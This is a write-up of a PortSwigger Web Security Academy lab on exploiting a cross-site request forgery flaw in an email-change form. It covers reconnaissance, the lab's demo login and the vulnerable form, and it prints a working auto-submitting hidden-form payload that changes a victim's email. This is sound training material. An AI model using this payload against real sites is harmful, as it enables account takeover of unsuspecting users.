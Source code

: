 Title: CSRF vulnerability with No Defenses
Rank/Tier: Apprentice
Author: Portswigger Web Security Academy
Link: https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses

# CSRF vulnerability with no defenses
Provided with the following description:
>This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: **```wiener:peter```**

Main take aways from the provided description:
- Credentials to an account: ```wiener:peter```.
- Email change function is vulnerable to CSRF.
- Goal: Create and store HTML that performs CSRF on a malicious server that can change the viewers email.

# Reconnaissance
Accessing the lab we're presented with a blog. Feel free to look through the various posts. The 2 areas of interest is  ```Go to exploit server``` and ```My account``` to reach the goal of the lab. 
- Rationale for ```Go to exploit server``` is the name. In the description it said to upload HTML to the exploit server.
- Rationale for ```My account``` is in the lab description about the change email functionality being vulnerable to CSRF. Which is most likely located in a page related to my account than a blog post.
![First displayed page](Lab1_Blog_Page.png)

## Exploit server
Clicking on the ```Go to exploit server``` button we're taken to a new web page with the description
> This is your server. You can use the form below to save an exploit, and send it to the victim.
>
> Please note that the victim uses Google Chrome. When you test your exploit against yourself, we recommend using Burp's Browser or Chrome.

URL to exploit server: 
```
https://exploit-0aac00e003b9867880722ace01de0089.exploit-server.net/exploit
```
Protocol:
```
HTTPS
```
File:
```
exploit
```
Head: 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```
Body:
```
Hello, world!
```
4 options:
- Store (Save changes to exploit server)
- View exploit (View result of the exploit server impact on the lab website)
- Deliver exploit to victim (Perform the exploit)
- Access Log

![Exploit_Server](Lab1_Exploit_Server_Original.png)

## My account
Displayed a login page requesting a username and password. Insert the provided credentials.

Username:
```
wiener
```
Password:
```
peter
```
![Login page](Lab1_Login_Page.png)

## Change account page
After successfully logging in we're taken to the My Account page which has the option to update email. From the original lab description the vulnerable functionality in this website is the email update suggesting this form to be our initial attack vector.

![My account](My_Account.png)

Viewed the pages source and the update email form is:
```
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <button class='button' type='submit'> Update email </button>
</form>
```
Seds a POST request to ```view-source:https://0a3500ce033f86a480602b28006400dd.web-security-academy.net/my-account/change-email``` containing the newly requested email we want to change to. Doesn't seem to contain a CSRF token.

Lets attempt to change the email from ```wiener@normal-user.net``` to ```wiener2@normal-user.net``` and capture the request in burp suite.
![Email_Change_1](Email_Change1.png)
It seems to use the session ID stored in a cookie


# Web exploitation of update email function through CSRF
⚠️Session ID may vary due to connection issues and needing to restart lab during this process.

In the body of our exploit server we can insert the following:
```
<form action="https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email" method="POST">
	<input type="hidden" name="email" value="wiener3@normal-user.net" />
</form>
<script>
	document.forms[0].submit();
</script>
```
Explanation:
>Send the data to the destination stored in the attribute action. Which in this case is https://0a1000f60481354e8075944c0074006c.web-security-academy.net/my-account/change-email. Which we got from our recon. Using type hidden because we don't want the victim to see this input field. Copy and paste ```name="email" value=""``` from the original form and insert the email we want our account to change to in value.

Use ```document.form[0].submit()``` to execute the form when our exploit server is loaded by the victim/target. 

Explanation
>Does this by using javascript and accessing the document object and use the form[index] 0 which would be our malicious form and submit it.

Select store to save it on the exploit server.
![Insert malicious form](Malicious_Body.png)


